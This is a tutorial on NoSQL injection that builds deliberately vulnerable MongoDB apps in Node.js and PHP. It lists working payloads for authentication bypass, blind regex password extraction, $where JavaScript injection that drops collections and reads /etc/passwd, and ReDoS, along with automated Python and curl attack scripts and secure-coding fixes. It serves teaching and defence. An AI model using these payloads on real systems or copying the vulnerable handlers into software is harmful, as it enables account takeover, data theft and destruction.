

# NoSQL Injection & Beyond: Extending Injection Concepts

## Understanding Injection in Non-Relational Databases

---

## Part 1: The Universal Problem of Trust

### Why Injection Exists Everywhere



### The Core Problem

```javascript
// The vulnerability pattern exists across ALL technologies:

// SQL (Relational)
const query = "SELECT * FROM users WHERE username = '" + userInput + "'";

// MongoDB (Document)
db.collection('users').find({ username: userInput });

// Both trust user input without validation!
// Both can be exploited if input contains special characters/objects
```

---

## Part 2: Setting Up Your NoSQL Test Environment

### Install MongoDB and Create Test Database

```bash
# Install MongoDB on Ubuntu
sudo apt-get install mongodb-server mongodb-client

# Start MongoDB
sudo systemctl start mongodb

# Access MongoDB shell
mongo
```

```javascript
// MongoDB setup script
use nosql_lab;

// Create users collection
db.createCollection('users');

// Insert test users
db.users.insertMany([
    {
        username: "admin",
        password: "admin123",
        email: "admin@example.com",
        role: "administrator",
        api_key: "mongodb-api-key-admin-12345",
        secret_notes: "Server passwords: SSH=admin:sshpass123, DB=root:mongopass456"
    },
    {
        username: "john_doe",
        password: "password123",
        email: "john@example.com",
        role: "user",
        api_key: null
    },
    {
        username: "jane_editor",
        password: "editor456",
        email: "jane@example.com",
        role: "editor",
        api_key: "mongodb-api-key-editor-67890"
    },
    {
        username: "bob_user",
        password: "user789",
        email: "bob@example.com",
        role: "user",
        api_key: null
    }
]);

// Create products collection
db.products.insertMany([
    {
        name: "Laptop",
        price: 1299.99,
        category: "Electronics",
        stock: 50
    },
    {
        name: "Mouse",
        price: 29.99,
        category: "Accessories",
        stock: 200
    },
    {
        name: "Keyboard",
        price: 159.99,
        category: "Accessories",
        stock: 75
    }
]);

// Create admin_logs (like SQL tables, but as documents)
db.admin_logs.insertMany([
    {
        admin: "admin",
        action: "System Configuration",
        details: "Updated MongoDB credentials: admin/mongopass123",
        timestamp: new Date()
    },
    {
        admin: "admin",
        action: "API Key Generation",
        details: "Created API keys for external services",
        timestamp: new Date()
    }
]);

// Verify data
print("Users:");
printjson(db.users.find().toArray());
print("\nProducts:");
printjson(db.products.find().toArray());
```

### Create Vulnerable Node.js Application

```javascript
// vulnerable_app.js - DELIBERATELY VULNERABLE
const express = require('express');
const MongoClient = require('mongodb').MongoClient;
const bodyParser = require('body-parser');

const app = express();
const url = 'mongodb://localhost:27017';
const dbName = 'nosql_lab';

app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: true }));

// VULNERABLE: Login endpoint
app.post('/login', async (req, res) => {
    const client = new MongoClient(url);
    
    try {
        await client.connect();
        const db = client.db(dbName);
        
        // VULNERABLE: Direct user input in query
        const user = await db.collection('users').findOne({
            username: req.body.username,
            password: req.body.password
        });
        
        if (user) {
            res.json({
                success: true,
                message: "Login successful!",
                user: user
            });
        } else {
            res.json({
                success: false,
                message: "Login failed!"
            });
        }
    } catch (error) {
        // VULNERABLE: Exposing errors
        res.json({
            success: false,
            error: error.message
        });
    } finally {
        client.close();
    }
});

// VULNERABLE: Search endpoint
app.get('/search', async (req, res) => {
    const client = new MongoClient(url);
    
    try {
        await client.connect();
        const db = client.db(dbName);
        
        // VULNERABLE: Direct user input
        const query = { username: req.query.username };
        
        const users = await db.collection('users').find(query).toArray();
        
        res.json({
            success: true,
            query: JSON.stringify(query),
            results: users
        });
    } catch (error) {
        res.json({
            success: false,
            error: error.message
        });
    } finally {
        client.close();
    }
});

// VULNERABLE: WHERE clause injection
app.get('/users', async (req, res) => {
    const client = new MongoClient(url);
    
    try {
        await client.connect();
        const db = client.db(dbName);
        
        // VULNERABLE: Accepting full query object
        let query = {};
        if (req.query.filter) {
            query = JSON.parse(req.query.filter);
        }
        
        const users = await db.collection('users').find(query).toArray();
        
        res.json({
            success: true,
            query: JSON.stringify(query),
            results: users
        });
    } catch (error) {
        res.json({
            success: false,
            error: error.message
        });
    } finally {
        client.close();
    }
});

app.listen(3000, () => {
    console.log('Vulnerable app running on port 3000');
});
```

### Create Vulnerable PHP-MongoDB Application

```php
<?php
// vulnerable_mongo.php - PHP with MongoDB

// Connect to MongoDB
$manager = new MongoDB\Driver\Manager("mongodb://localhost:27017");

// VULNERABLE: Login function
if (isset($_POST['login'])) {
    $username = $_POST['username'];
    $password = $_POST['password'];
    
    // VULNERABLE: Building filter from user input
    $filter = [
        'username' => $username,
        'password' => $password
    ];
    
    $query = new MongoDB\Driver\Query($filter);
    
    try {
        $cursor = $manager->executeQuery('nosql_lab.users', $query);
        $users = $cursor->toArray();
        
        if (count($users) > 0) {
            echo "<h3>Login Successful!</h3>";
            echo "<pre>";
            print_r($users[0]);
            echo "</pre>";
        } else {
            echo "<h3>Login Failed!</h3>";
        }
    } catch (Exception $e) {
        echo "<div style='color:red;'>Error: " . $e->getMessage() . "</div>";
    }
    
    echo "<h3>Executed Filter:</h3>";
    echo "<pre>" . json_encode($filter, JSON_PRETTY_PRINT) . "</pre>";
}

// VULNERABLE: Search function
if (isset($_GET['search'])) {
    $search = $_GET['search'];
    
    // VULNERABLE: Regex injection possible
    $filter = [
        'username' => new MongoDB\BSON\Regex($search, 'i')
    ];
    
    $query = new MongoDB\Driver\Query($filter);
    $cursor = $manager->executeQuery('nosql_lab.users', $query);
    
    echo "<h3>Search Results:</h3>";
    foreach ($cursor as $document) {
        echo "<pre>";
        print_r($document);
        echo "</pre>";
    }
}
?>

<form method="POST">
    <h3>Login Form</h3>
    <input type="text" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="login" value="Login">
</form>

<form method="GET">
    <h3>Search Users</h3>
    <input type="text" name="search" placeholder="Search username...">
    <input type="submit" value="Search">
</form>
```

---

## Part 3: NoSQL Injection Techniques

### 1. Authentication Bypass (MongoDB $ne Operator)

```javascript
// THE CLASSIC NOSQL INJECTION

// Normal login request:
// POST /login
// {
//     "username": "admin",
//     "password": "password123"
// }

// Injected login request:
// POST /login
// {
//     "username": "admin",
//     "password": {"$ne": ""}
// }

// What happens:
db.collection('users').findOne({
    username: "admin",
    password: {"$ne": ""}  // $ne means "not equal to empty string"
})

// This returns the admin user because:
// - admin's password is "admin123"
// - "admin123" != ""  (not equal to empty string)
// - TRUE! Login bypassed!

// Other $ne variations:
{"$ne": "nonexistent"}  // Any password not equal to 'nonexistent'
{"$ne": 1}              // Password not equal to number 1
```

### 2. Using Other MongoDB Operators

```javascript
// OPERATOR INJECTION REFERENCE

// $gt (greater than) - Bypass login
// POST /login
{
    "username": "admin",
    "password": {"$gt": ""}
}
// Query: password > "" → TRUE for any string password

// $lt (less than)
{
    "username": "admin",
    "password": {"$lt": "zzzzz"}
}
// Query: password < "zzzzz" → TRUE for most passwords

// $gte (greater than or equal)
{
    "username": {"$gte": ""},
    "password": {"$gte": ""}
}
// Both conditions true → Returns first user (often admin)

// $regex (regular expression) - Password brute force
{
    "username": "admin",
    "password": {"$regex": "^a"}
}
// Returns admin if password starts with 'a'

// $regex with timing attack
{
    "username": "admin",
    "password": {"$regex": "^a.*"}
}
// Test each character positionally!

// $in (in array) - Multiple password attempts
{
    "username": "admin",
    "password": {"$in": ["password", "admin", "admin123", "123456"]}
}
// Tries multiple passwords at once!

// $nin (not in)
{
    "username": "admin",
    "password": {"$nin": ["wrongpass1", "wrongpass2"]}
}
// Login succeeds if password is NOT in the excluded list
```

### 3. Complete Authentication Bypass Methods

```javascript
// METHOD 1: Both fields with operators
{
    "username": {"$ne": ""},
    "password": {"$ne": ""}
}
// Returns first user with non-empty username and password
// Usually admin!

// METHOD 2: Username with $regex
{
    "username": {"$regex": ".*"},
    "password": {"$ne": ""}
}
// Matches any username, password not empty

// METHOD 3: $exists operator
{
    "username": {"$exists": true},
    "password": {"$exists": true}
}
// Returns any user where both fields exist

// METHOD 4: $or injection
{
    "username": "admin",
    "$or": [
        {"password": "wrong"},
        {"password": {"$ne": ""}}
    ]
}
// Even if wrong password, $or makes it true

// METHOD 5: $where (JavaScript injection - MOST DANGEROUS)
{
    "username": "admin",
    "$where": "1"
}
// $where: "1" always returns true
// Or worse:
{
    "$where": "sleep(5000) || true"
}
// Time-based detection!
```

### 4. Data Extraction via $regex

```javascript
// BLIND NOSQL INJECTION - Password Extraction

// Step 1: Check password length
{
    "username": "admin",
    "password": {"$regex": "^.{8}$"}
}
// If login succeeds, password is exactly 8 characters

// Step 2: Extract first character
{
    "username": "admin",
    "password": {"$regex": "^a"}
}
// Test a, b, c, d... until login succeeds
// If 'a' works, password starts with 'a'

// Step 3: Extract second character
{
    "username": "admin",
    "password": {"$regex": "^ad"}
}
// Test aa, ab, ac... ad until login succeeds

// Step 4: Continue until full password extracted
{
    "username": "admin",
    "password": {"$regex": "^admin123$"}
}
// Exact match! Password found.

// Automated extraction script:
async function extractPassword() {
    const chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$';
    let password = '';
    
    for (let i = 0; i < 20; i++) {
        for (let char of chars) {
            const payload = {
                username: 'admin',
                password: { '$regex': `^${password}${char}` }
            };
            
            const response = await fetch('/login', {
                method: 'POST',
                body: JSON.stringify(payload)
            });
            
            const data = await response.json();
            
            if (data.success) {
                password += char;
                console.log(`Found: ${password}`);
                break;
            }
        }
    }
}
```

### 5. $where Injection (JavaScript Execution)

```javascript
// $WHERE IS THE MOST DANGEROUS OPERATOR
// It allows arbitrary JavaScript execution!

// Time-based detection
{
    "$where": "sleep(5000)"
}
// If response takes 5 seconds → vulnerable!

// Boolean-based
{
    "$where": "this.username == 'admin'"
}
// Returns admin user

// Extract data via timing
{
    "$where": "var admin = db.users.findOne({username:'admin'}); 
               if(admin.password.length == 8) { sleep(5000); }"
}
// If delay, password is 8 chars

// Extract password character by character
{
    "$where": "var admin = db.users.findOne({username:'admin'}); 
               if(admin.password.substring(0,1) == 'a') { sleep(3000); }"
}

// Denial of Service
{
    "$where": "while(true) {}"
}
// Infinite loop!

// Drop collection (if permissions allow)
{
    "$where": "db.users.drop()"
}

// Read server files (Node.js MongoDB driver)
{
    "$where": "require('fs').readFileSync('/etc/passwd').toString()"
}
```

### 6. JSON Parameter Pollution

```javascript
// EXPLOITING JSON PARSING BEHAVIOR

// Normal request:
{
    "username": "john_doe",
    "password": "password123"
}

// Parameter pollution:
{
    "username": "john_doe",
    "username": "admin",
    "password": "password123"
}
// Some parsers use LAST value → "username": "admin"
// Others use FIRST value → "username": "john_doe"
// Test both!

// Array injection:
{
    "username": ["admin", "john_doe"],
    "password": "password123"
}
// MongoDB query: {username: {$in: ["admin", "john_doe"]}}
// Returns both users!

// Nested object injection:
{
    "username": {"$gt": ""},
    "password": {"$gt": ""}
}

// Content-Type manipulation:
// Send as application/json even if API expects form-urlencoded
// Or vice versa - test both!
```

---

## Part 4: Testing Your Application

### Python Testing Script

```python
#!/usr/bin/env python3
"""
nosql_injection_tester.py
Tests MongoDB/NoSQL injection vulnerabilities
"""

import requests
import json
import time
import string

class NoSQLInjectionTester:
    def __init__(self, base_url):
        self.base_url = base_url
        self.session = requests.Session()
        
    def test_authentication_bypass(self):
        """Test various authentication bypass payloads"""
        print("\n[+] Testing Authentication Bypass...")
        
        payloads = [
            # Method 1: $ne operator
            {
                "username": "admin",
                "password": {"$ne": ""}
            },
            # Method 2: $gt operator
            {
                "username": "admin",
                "password": {"$gt": ""}
            },
            # Method 3: $regex
            {
                "username": "admin",
                "password": {"$regex": ".*"}
            },
            # Method 4: Both fields
            {
                "username": {"$ne": ""},
                "password": {"$ne": ""}
            },
            # Method 5: $exists
            {
                "username": {"$exists": True},
                "password": {"$exists": True}
            },
            # Method 6: Array injection
            {
                "username": ["admin"],
                "password": {"$ne": ""}
            },
            # Method 7: $or injection
            {
                "username": "admin",
                "$or": [
                    {"password": "wrongpassword"},
                    {"password": {"$ne": ""}}
                ]
            }
        ]
        
        for i, payload in enumerate(payloads):
            print(f"\n  Test {i+1}: {json.dumps(payload)}")
            
            try:
                response = self.session.post(
                    f"{self.base_url}/login",
                    json=payload,
                    timeout=10
                )
                
                data = response.json()
                
                if data.get('success'):
                    print(f"  [!] BYPASS SUCCESSFUL!")
                    print(f"  [+] Returned user: {data.get('user', {})}")
                else:
                    print(f"  [-] Bypass failed")
                    
            except Exception as e:
                print(f"  [-] Error: {e}")
            
            time.sleep(0.5)
    
    def test_blind_extraction(self):
        """Test blind data extraction via $regex"""
        print("\n[+] Testing Blind Password Extraction...")
        
        # First, determine password length
        for length in range(5, 20):
            payload = {
                "username": "admin",
                "password": {"$regex": f"^.{{{length}}}$"}
            }
            
            response = self.session.post(
                f"{self.base_url}/login",
                json=payload
            )
            
            if response.json().get('success'):
                print(f"  [+] Password length: {length}")
                
                # Extract password character by character
                password = ""
                chars = string.ascii_lowercase + string.digits + "!@#$"
                
                for pos in range(length):
                    for char in chars:
                        test_str = password + char
                        payload = {
                            "username": "admin",
                            "password": {"$regex": f"^{test_str}"}
                        }
                        
                        response = self.session.post(
                            f"{self.base_url}/login",
                            json=payload
                        )
                        
                        if response.json().get('success'):
                            password += char
                            print(f"  [+] Found: {password}")
                            break
                        time.sleep(0.1)
                
                print(f"  [!] Password: {password}")
                return password
                
            time.sleep(0.2)
    
    def test_where_injection(self):
        """Test $where JavaScript injection"""
        print("\n[+] Testing $where Injection...")
        
        payloads = [
            # Time-based test
            {
                "$where": "sleep(3000)"
            },
            # Boolean test
            {
                "$where": "1"
            },
            # Data extraction
            {
                "$where": "this.username == 'admin'"
            },
            # Server info
            {
                "$where": "return true"
            }
        ]
        
        for payload in payloads:
            print(f"\n  Testing: {json.dumps(payload)}")
            
            start_time = time.time()
            response = self.session.post(
                f"{self.base_url}/users",
                json={"filter": json.dumps(payload)},
                timeout=10
            )
            elapsed = time.time() - start_time
            
            if elapsed > 2.5:
                print(f"  [!] TIME-BASED INJECTION DETECTED! ({elapsed:.2f}s)")
            
            try:
                data = response.json()
                if data.get('success') and data.get('results'):
                    print(f"  [!] DATA RETURNED! ({len(data['results'])} records)")
            except:
                pass
            
            time.sleep(0.5)
    
    def test_regex_denial_of_service(self):
        """Test ReDoS via regex injection"""
        print("\n[+] Testing Regex Denial of Service...")
        
        # Evil regex patterns
        payloads = [
            "(a+)+b",           # Exponential backtracking
            "([a-zA-Z]+)*",     # Catastrophic backtracking
            "(.*a){100}",       # Nested quantifiers
        ]
        
        for payload in payloads:
            start_time = time.time()
            try:
                response = self.session.get(
                    f"{self.base_url}/search",
                    params={"username": payload},
                    timeout=5
                )
                elapsed = time.time() - start_time
                
                if elapsed > 3:
                    print(f"  [!] ReDoS VULNERABLE! Pattern: {payload} ({elapsed:.2f}s)")
            except requests.Timeout:
                print(f"  [!] ReDoS CONFIRMED! Pattern: {payload} (timeout)")

# Run tests
tester = NoSQLInjectionTester("http://localhost:3000")
tester.test_authentication_bypass()
tester.test_blind_extraction()
tester.test_where_injection()
tester.test_regex_denial_of_service()
```

### Automated Test Script with cURL

```bash
#!/bin/bash
# nosql_test.sh - Test NoSQL injection with curl

BASE_URL="http://localhost:3000"

echo "========================================="
echo "NoSQL Injection Testing Script"
echo "========================================="

# Test 1: Normal login (baseline)
echo -e "\n[Test 1] Normal Login:"
curl -s -X POST "$BASE_URL/login" \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"admin123"}' | jq '.'

# Test 2: $ne injection
echo -e "\n[Test 2] \$ne Injection:"
curl -s -X POST "$BASE_URL/login" \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":{"$ne":""}}' | jq '.'

# Test 3: $gt injection
echo -e "\n[Test 3] \$gt Injection:"
curl -s -X POST "$BASE_URL/login" \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":{"$gt":""}}' | jq '.'

# Test 4: $regex injection
echo -e "\n[Test 4] \$regex Injection:"
curl -s -X POST "$BASE_URL/login" \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":{"$regex":"^a"}}' | jq '.'

# Test 5: Both fields inject
echo -e "\n[Test 5] Double Operator Injection:"
curl -s -X POST "$BASE_URL/login" \
  -H "Content-Type: application/json" \
  -d '{"username":{"$ne":""},"password":{"$ne":""}}' | jq '.'

# Test 6: $where injection (time-based)
echo -e "\n[Test 6] \$where Time-Based:"
time curl -s -X POST "$BASE_URL/login" \
  -H "Content-Type: application/json" \
  -d '{"$where":"sleep(3000)"}' | jq '.'

# Test 7: Array injection
echo -e "\n[Test 7] Array Injection:"
curl -s -X POST "$BASE_URL/login" \
  -H "Content-Type: application/json" \
  -d '{"username":["admin","john_doe"],"password":{"$ne":""}}' | jq '.'

echo -e "\n========================================="
echo "Testing Complete"
echo "========================================="
```

---

## Part 5: Understanding Different NoSQL Databases

### MongoDB vs Others

```javascript
// MONGODB OPERATORS (most common target)
{
    "$eq": "value",      // equals
    "$ne": "value",      // not equals
    "$gt": 100,          // greater than
    "$gte": 100,         // greater than or equal
    "$lt": 100,          // less than
    "$lte": 100,         // less than or equal
    "$in": [1,2,3],      // in array
    "$nin": [1,2,3],     // not in array
    "$regex": "pattern", // regular expression
    "$exists": true,     // field exists
    "$where": "code",    // JavaScript expression
    "$or": [...],        // OR conditions
    "$and": [...],       // AND conditions
    "$not": {...}        // NOT condition
}

// CouchDB - Similar but different
{
    "selector": {
        "username": {"$ne": null},
        "password": {"$ne": null}
    }
}

// DynamoDB - AWS specific
{
    "Key": {
        "username": {"S": "admin"}
    },
    "FilterExpression": "password <> :empty",
    "ExpressionAttributeValues": {
        ":empty": {"S": ""}
    }
}

// Firebase/Firestore - No SQL-like injection usually
// But validation bypass possible if rules are poorly written
{
    "username": "admin",
    ".key": ".value"  // Rule bypass attempt
}
```

### Elasticsearch Injection

```json
// Elasticsearch query string injection
{
  "query": {
    "query_string": {
      "query": "username: admin OR 1=1"
    }
  }
}

// Script injection in Elasticsearch
{
  "script_fields": {
    "test": {
      "script": {
        "source": "Runtime.getRuntime().exec('whoami')"
      }
    }
  }
}
```

---

## Part 6: Defense Strategies

### Secure Implementation Patterns

```javascript
// SECURE: Type validation
app.post('/secure-login', async (req, res) => {
    const { username, password } = req.body;
    
    // Validate types FIRST
    if (typeof username !== 'string' || typeof password !== 'string') {
        return res.status(400).json({ error: 'Invalid input type' });
    }
    
    // Now safe to use as strings
    const user = await db.collection('users').findOne({
        username: username,
        password: password
    });
});

// SECURE: Whitelist allowed fields
app.post('/secure-search', async (req, res) => {
    const allowedFields = ['username', 'email', 'role'];
    const query = {};
    
    // Only allow whitelisted fields
    for (const field of allowedFields) {
        if (req.body[field] && typeof req.body[field] === 'string') {
            query[field] = req.body[field];
        }
    }
    
    const users = await db.collection('users').find(query).toArray();
    res.json(users);
});

// SECURE: Sanitize nested objects
function sanitizeObject(obj) {
    if (typeof obj !== 'object' || obj === null) {
        return obj;
    }
    
    const sanitized = {};
    
    for (const [key, value] of Object.entries(obj)) {
        // Reject MongoDB operators
        if (key.startsWith('$')) {
            continue;  // Skip operator keys
        }
        
        // Recursively sanitize
        sanitized[key] = sanitizeObject(value);
    }
    
    return sanitized;
}

// SECURE: Use mongo-sanitize library
const mongoSanitize = require('express-mongo-sanitize');
app.use(mongoSanitize());
// This removes $ and . from keys automatically
```

### PHP Secure Implementation

```php
<?php
// secure_mongo.php

// Method 1: Type validation
function validateLoginInput($username, $password) {
    if (!is_string($username) || !is_string($password)) {
        throw new Exception('Invalid input type');
    }
    
    return [
        'username' => (string)$username,
        'password' => (string)$password
    ];
}

// Method 2: Recursive sanitization
function sanitizeMongoInput($data) {
    if (is_array($data)) {
        foreach ($data as $key => $value) {
            // Remove MongoDB operators
            if (is_string($key) && strpos($key, '$') === 0) {
                unset($data[$key]);
                continue;
            }
            
            // Remove dot notation (MongoDB specific)
            if (is_string($key) && strpos($key, '.') !== false) {
                unset($data[$key]);
                continue;
            }
            
            $data[$key] = sanitizeMongoInput($value);
        }
    }
    
    return $data;
}

// Method 3: Whitelist approach
$allowedFields = ['username', 'email', 'role'];
$filter = [];

foreach ($_POST as $key => $value) {
    if (in_array($key, $allowedFields) && is_string($value)) {
        $filter[$key] = $value;
    }
}

$query = new MongoDB\Driver\Query($filter);
$cursor = $manager->executeQuery('nosql_lab.users', $query);
?>
```

---

## Part 7: Complete Attack Reference

### Comparison: SQL vs NoSQL Injection

```mermaid
graph LR
    A[Injection Types] --> B[SQL Injection]
    A --> C[NoSQL Injection]
    
    B --> B1["' OR 1=1 --"]
    B --> B2["UNION SELECT"]
    B --> B3["SLEEP(5)"]
    B --> B4["EXTRACTVALUE()"]
    
    C --> C1['{"$ne": ""}']
    C --> C2['{"$regex": ".*"}']
    C --> C3['{"$where": "sleep(5000)"}']
    C --> C4["Array injection"]
    
    style B fill:#f96
    style C fill:#69f
```

### Quick Reference Table

| Attack Type | SQL Injection | MongoDB Injection |
|------------|--------------|------------------|
| **Auth Bypass** | `' OR 1=1 --` | `{"$ne": ""}` |
| **Boolean Blind** | `AND 1=1` | `{"$regex": "^a"}` |
| **Time-Based** | `AND SLEEP(5)` | `{"$where": "sleep(5000)"}` |
| **Data Extraction** | `UNION SELECT` | `{"$regex": "^.{8}$"}` |
| **Error-Based** | `EXTRACTVALUE()` | `$where` with errors |
| **Command Execution** | `xp_cmdshell` | `$where` JavaScript |
| **Denial of Service** | `BENCHMARK()` | Evil regex/`$where` |

## Summary

**Key Principles from the Text:**

1. **Injection is Universal**: Any system that trusts user input can be injected
2. **NoSQL ≠ No Injection**: Document databases still process structured input
3. **JSON is Text**: Like SQL, JSON can be manipulated if not sanitized
4. **Operators are the Key**: MongoDB's `$ne`, `$gt`, `$regex`, `$where` can be exploited
5. **Same Logic, Different Syntax**: The attack principles are identical to SQL injection
6. **Defense is the Same**: Validate types, sanitize input, never trust user data

**Your Test Environment Results:**
- `{"$ne": ""}` bypasses authentication
- `{"$regex": "^a"}` enables blind extraction
- `{"$where": "sleep(5000)"}` enables time-based detection
- `{"$gt": ""}` works for most string comparisons

**Remember**: While NoSQL injection typically can't do UNION-based schema enumeration like SQL, the authentication bypass and data extraction capabilities are just as dangerous. Always validate and sanitize input regardless of database technology.
